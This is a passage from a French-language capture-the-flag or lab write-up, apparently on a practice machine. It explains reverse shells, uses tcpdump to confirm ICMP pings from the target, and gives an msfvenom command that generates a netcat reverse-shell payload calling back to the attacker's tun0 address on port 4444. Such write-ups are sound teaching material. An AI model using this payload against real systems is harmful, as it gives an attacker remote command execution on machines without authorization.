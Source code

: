 Cependant nous avons plus de chance de pouvoir exploiter une mauvaise configuration.

Pour se faire nous pouvons utiliser le **Reverse Shell,**  Un "shell" peut simplement être décrit comme un morceau de code ou un programme qui peut être utilisé pour obtenir l'exécution de code ou de commandes sur un appareil.

Un reverse shell  est un type de shell dans lequel la machine cible communique avec la machine attaquante.

La machine attaquante a un port d'écoute sur lequel elle reçoit la connexion, ce qui permet d'obtenir l'exécution de code ou de commandes.

On va exécuter ce code dans notre machine. Je ne change rien à cette commande. Je le laisse tel quel et je l’exécute.

```bash
sudo tcpdump ip proto \\icmp -i tun0
```

- **`tcpdump`** : C'est un utilitaire de ligne de commande qui permet de capturer et d'afficher les paquets circulant sur un réseau.
- **`ip proto \\icmp`** : Ce filtre indique à `tcpdump` de capturer uniquement les paquets utilisant le protocole ICMP. ICMP est couramment utilisé pour des opérations de diagnostic réseau telles que le ping.
- **`i tun0`** : Spécifie l'interface réseau à partir de laquelle capturer les paquets. `tun0` est typiquement une interface réseau virtuelle utilisée par des tunnels VPN ou d'autres types de tunnels réseau.

Cette commande capture et affiche en temps réel les paquets ICMP (par exemple, des requêtes et réponses ping) qui passent par l'interface réseau `tun0`.

Je ping depuis le shell distant ma machine local et je peux voir que je reçois les ICMP. Je vais utiliser un payload pour avoir accès au shell depuis mon shell pour être moins restreint.

Je vais utiliser cette commande pour générer mon payload.

```bash
msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R
```

La commande `msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R` est utilisée pour générer un payload de type reverse shell pour Unix/Linux, qui se connecte à un hôte local via Netcat. Voici une explication détaillée de chaque composant de cette commande :

1. **`msfvenom`** : C'est un outil utilisé pour créer et encoder des payloads pour Metasploit. Il permet de combiner des payloads avec divers encodeurs, formant des exploits autonomes.
2. **`p cmd/unix/reverse_netcat`** : Ce paramètre spécifie le type de payload à utiliser. Ici, il s'agit d'un reverse shell qui utilise Netcat (`cmd/unix/reverse_netcat`). Un reverse shell est un shell qui se connecte à un serveur distant, permettant à l'attaquant de prendre le contrôle du système compromis.
3. **`lhost=[local tun0 ip]`** : Ce paramètre spécifie l'adresse IP de l'hôte local (l'attaquant) où le reverse shell se connectera. Vous devez remplacer `[local tun0 ip]` par l'adresse IP de votre interface `tun0`.
4. **`lport=4444`** : Ce paramètre spécifie le port sur lequel l'hôte local (l'attaquant) écoutera les connexions entrantes du reverse shell. Ici, le port est 4444, mais vous pouvez choisir un autre port si nécessaire.
5. **`R`** : Ce paramètre indique que le payload doit être affiché en tant que chaîne brute (Raw). Cette option est utilisée pour afficher le code généré directement sur la console.
